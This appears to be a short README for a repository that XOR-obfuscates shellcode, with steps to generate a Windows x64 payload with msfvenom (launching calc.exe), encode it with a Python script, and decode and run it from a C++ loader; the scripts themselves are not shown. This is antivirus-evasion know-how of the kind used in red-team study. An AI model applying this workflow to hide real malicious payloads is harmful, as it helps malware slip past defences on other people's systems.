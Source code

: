 # Shellcode Obfuscation: XOR

## Usage

### 1. Generate Original Shellcode

```sh
msfvenom -p windows/x64/exec CMD=calc.exe -f py -v shellcode
```

### 2. Encode the Shellcode

Open `XOR.py` and replace the `shellcode` value with our generated shellcode, then execute it:

```sh
python3 XOR.py
```

### 3. Decode & Execute Shellcode

Edit `XOR.cpp` to replace the `encodedShellcode` with the generated shellcode above.  
Then build/execute it.